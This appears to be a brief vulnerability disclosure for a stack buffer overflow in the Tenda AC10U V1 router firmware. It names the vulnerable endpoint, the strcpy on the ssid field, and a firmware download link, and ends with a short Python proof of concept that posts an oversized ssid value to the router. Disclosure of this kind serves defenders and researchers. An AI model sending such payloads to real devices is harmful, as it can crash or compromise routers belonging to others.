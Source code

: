 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/form_fast_setting_wifi_set

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](1.png)

get value from ssid and call strcpy ,cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/fast_setting_wifi_set"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'ssid': payload})
```
